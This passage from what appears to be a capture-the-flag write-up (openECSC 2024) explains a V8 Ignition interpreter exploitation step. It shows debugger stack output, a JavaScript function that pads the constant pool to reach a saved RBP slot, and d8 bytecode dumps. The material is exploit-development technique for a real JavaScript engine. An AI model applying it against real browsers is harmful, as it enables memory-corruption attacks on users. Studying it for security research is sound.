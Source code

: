 The saved RBP we want to target is this one:

```none
             vvvvvvvvvvvvvv
16:00b0│+068 0x7ffc026c2748 —▸ 0x7ffc026c2778 —▸ 0x7ffc026c27f0 —▸ 0x7ffc026c2950 —▸ 0x7ffc026c29c0 ◂— ...
17:00b8│+070 0x7ffc026c2750 —▸ 0x62b8aa6ac59c (Builtins_JSEntryTrampoline+92) ◂— mov rsp, rbp
```

It appears to be at `rbp + 8 * 14` so the constant pool index we want is `14`.
We can write a function with a few more constants to get the index we want.
Constants are put in the constant pool array more or less in the same order they
appear in the enclosing function, so this is straightforward.

> [!NOTE]
> The space in the stack frame of the Ignition opcode handler may change due to
> the code we write (inside or even outside the function), so the index may need
> a second adjustment. In the above example we needed `rbp + 8 * 14`, but for my
> final exploit script it ended up being `rbp + 8 * 18` instead. YMMV.

```js
// x.js
function f(x) {
    g0 = 1.1;
    g1 = 2.2;
    g3 = 3.3;
    g4 = 4.4;
    g5 = 5.5;
    g6 = 6.60;
    g6 = 6.61;

    let a = 1336.1337 + x;
    g = 69.420;
}
```

```none
./d8 --allow-natives-syntax --shell x.js
d8> f(0)
undefined
d8> %DebugPrint(f0)
[...]
 - bytecode: 0x259b000400f1 <BytecodeArray[51]>
[...]
d8> %DebugPrintPtr(0x259b000400f1)
DebugPrint: 0x259b000400f1: [BytecodeArray]
 - map: 0x12e600000971 <Map(BYTECODE_ARRAY_TYPE)>
Parameter count 2
Register count 2
Frame size 16
         0x259b00040118 @    0 : 13 00             LdaConstant [0]
         0x259b0004011a @    2 : 23 01 00          StaGlobal [1], [0]
         0x259b0004011d @    5 : 13 02             LdaConstant [2]
         0x259b0004011f @    7 : 23 03 02          StaGlobal [3], [2]
         0x259b00040122 @   10 : 13 04             LdaConstant [4]
         0x259b00040124 @   12 : 23 05 04          StaGlobal [5], [4]
         0x259b00040127 @   15 : 13 06             LdaConstant [6]
         0x259b00040129 @   17 : 23 07 06          StaGlobal [7], [6]
         0x259b0004012c @   20 : 13 08             LdaConstant [8]
         0x259b0004012e @   22 : 23 09 08          StaGlobal [9], [8]
         0x259b00040131 @   25 : 13 0a             LdaConstant [10]
         0x259b00040133 @   27 : 23 0b 0a          StaGlobal [11], [10]
         0x259b00040136 @   30 : 13 0c             LdaConstant [12]
         0x259b00040138 @   32 : 23 0b 0a          StaGlobal [11], [10]
         0x259b0004013b @   35 : 13 0d             LdaConstant [13]
         0x259b0004013d @   37 : c9                Star1
         0x259b0004013e @   38 : 0b 03             Ldar a0
```

[openecsc-2024]: https://open.ecsc2024.it/
[v8-ignition]: https://v8.dev/docs/ignition
[v8-sandbox-testing]: https://v8.dev/blog/sandbox#testing
[v8-src-1]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;l=333?q=StoreRegisterAtOperandIndex&ss=chromium%2Fchromium%2Fsrc:v8%2F
[v8-src-2]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/objects/trusted-object.h;l=101;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1
[v8-src-3]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1;l=1289
[v8-src-4]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/sandbox/testing.cc;l=818;drc=82536afb4dfb2305b04da255190b25043e8f2a4d
[pwndbg]: https://github.com/pwndbg/pwndbg